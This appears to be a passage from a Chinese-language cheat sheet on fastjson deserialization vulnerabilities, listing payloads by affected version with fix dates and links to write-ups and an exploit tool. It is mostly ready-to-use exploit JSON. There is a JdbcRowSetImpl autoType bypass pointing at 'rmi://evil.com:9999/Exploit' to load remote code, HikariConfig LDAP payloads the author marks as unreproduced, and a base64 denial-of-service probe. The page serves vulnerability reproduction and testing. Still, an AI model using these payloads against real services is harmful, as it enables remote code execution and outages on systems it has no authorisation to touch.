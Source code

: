 ```json
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://evil.com:9999/Exploit",
        "autoCommit":true
    }
}

{"v47":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"xxx":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://0.0.0.0","autoCommit":true}}
```

官方于 2018/03/25 发布 1.2.48 版本修复该绕过方式

**相关文章**
- [Fastjson <=1.2.47 远程代码执行漏洞分析](https://www.anquanke.com/post/id/181874)
- [fastjson =< 1.2.47 反序列化漏洞复现](https://www.cnblogs.com/zhengjim/p/11433926.html)
- https://github.com/vulhub/vulhub/tree/master/fastjson/1.2.47-rce

**相关工具**
- [CaijiOrz/fastjson-1.2.47-RCE](https://github.com/CaijiOrz/fastjson-1.2.47-RCE)

---

## fastjson<=1.2.59

利用条件: fastjson<=1.2.59, 且开启autoType

```json
# 以下poc未复现成功
{"v59_error":{"@type":"com.zaxxer.hikari.HikariConfig","metricRegistry":"ldap://127.0.0.1"}}

{"v59_error":{"@type":"com.zaxxer.hikari.HikariConfig","healthCheckRegistry":"ldap://127.0.0.1"}}
```

官方于 2019/09/05 发布 1.2.60 版本修复该绕过方式

---

## fastjson<1.2.60 (Dos漏洞)

```
eyJhIjoiXHgaGiJ9

# base64解码后的数据发包,与正常请求相比,出现明显延迟即为存在漏洞
```

---

## fastjson<=1.2.61
